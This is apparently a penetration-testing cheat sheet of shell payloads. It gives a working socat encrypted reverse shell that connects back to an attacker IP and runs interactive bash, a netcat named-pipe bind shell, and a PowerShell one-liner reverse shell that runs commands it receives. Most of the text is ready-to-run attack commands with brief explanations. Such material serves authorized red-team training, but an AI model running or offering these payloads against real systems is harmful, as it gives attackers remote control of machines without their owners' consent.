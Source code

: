 Auto-stabilized shell using encryption (UNIX-like targets only):

```
# Attacker: Connect $LISTENER_PORT to the current TTY,
# send raw keycodes, and turn off terminal echo.
# Basically the `stty raw -echo`.
#
socat \
OPENSSL-LISTEN:$LISTENER_PORT,cert=shell.pem,verify=0 \
FILE:`tty`,raw,echo=0
# Target: Connect the listener on the attacker to an
# interactive login bash shell.
#
# pty - allocate a PTTY
# stderr - redirect STDERR to the attacker
# sigint - pass signals (Ctrl+C) through
# setsid - use a new session
# sane - use a variety of tweaks to "normalize" the
# terminal's environment
#
socat \
OPENSSL:$ATTACKER_IP:$LISTENER_PORT,verify=0 \
EXEC:"/bin/bash -li",pty,stderr,sigint,setsid,sane
```

## Common Shell Payloads

Pre-compiled, statically-linked Windows binaries for red teaming can be found in /usr/share/windows-binaries.

Because the `-e` switch is considered insecure (for the very reasons we’re fond of it), many UNIX-like operating systems ship a version of netcat without it. Working around this leads to the common named pipe pattern:

```
mkfifo /tmp/p
nc -lvnp $LISTENER_PORT < /tmp/p | /bin/sh >/tmp/p 2>&1
rm /tmp/p
```

(This example creates a bind shell, but we’ve also seen examples that create reverse shells. Note that it’s also possible to reverse the /bin/sh and nc portions of things; what important is that the named pipe lets us loop I/O between the two applications.)

You can do the same thing with PowerShell to create a reverse shell, albeit with a much more cryptic command.

```
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<IP>',<PORT>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```
